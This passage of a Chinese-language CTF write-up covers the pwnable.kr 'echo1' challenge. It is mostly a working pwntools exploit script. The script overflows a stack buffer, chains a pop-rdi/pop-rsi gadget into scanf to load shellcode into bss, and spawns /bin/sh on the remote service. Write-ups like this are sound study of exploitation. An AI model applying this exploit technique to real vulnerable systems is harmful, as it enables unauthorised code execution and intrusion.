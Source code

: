 #### 基于 len(asm("pop rdi; pop rsi; ret")) < 8

控制两个参数，可以控制echo1返回到scanf("%s", bss)把shellcode读到一个固定地址上，然后再返回到该地址，需要注意的是通过scanf读入shellcode的话需要避免shellcode中出现bad char截断scanf(可以参考[这道题](https://github.com/M4xW4n9/pwn_repo/tree/master/cmcc_pwnme1))，幸运的是shellcraft生成的shellcode刚好满足条件

```python
pwnable_echo1 [master●●] cat pop2.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from time import sleep
import sys
context.os = 'linux'
context.arch = 'amd64'
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

elf = ELF("./echo1")
if sys.argv[1] == "l":
    context.log_level = "debug"
    # env = {'LD_PRELOAD': ''}
    # io = process("", env = env)
    io = process("./echo1")
    libc = elf.libc


else:
    io = remote("pwnable.kr", 9010)
    #  libc = ELF("")


def DEBUG(cmd = ""):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

if __name__ == "__main__":
    pppr = asm('pop rdi; pop rsi; ret')
    io.sendlineafter(" : ", pppr)
    #  DEBUG("b *echo1\nc")
    io.sendlineafter("> ", "1")
    payload = flat([cyclic(0x20 + 8), elf.sym['id'], next(elf.search("%s")), elf.bss(), elf.plt['__isoc99_scanf'], elf.bss()])
    io.sendline(payload)

    io.sendline(asm(shellcraft.execve("/bin/sh")))
    
    io.interactive()
    io.close()
```
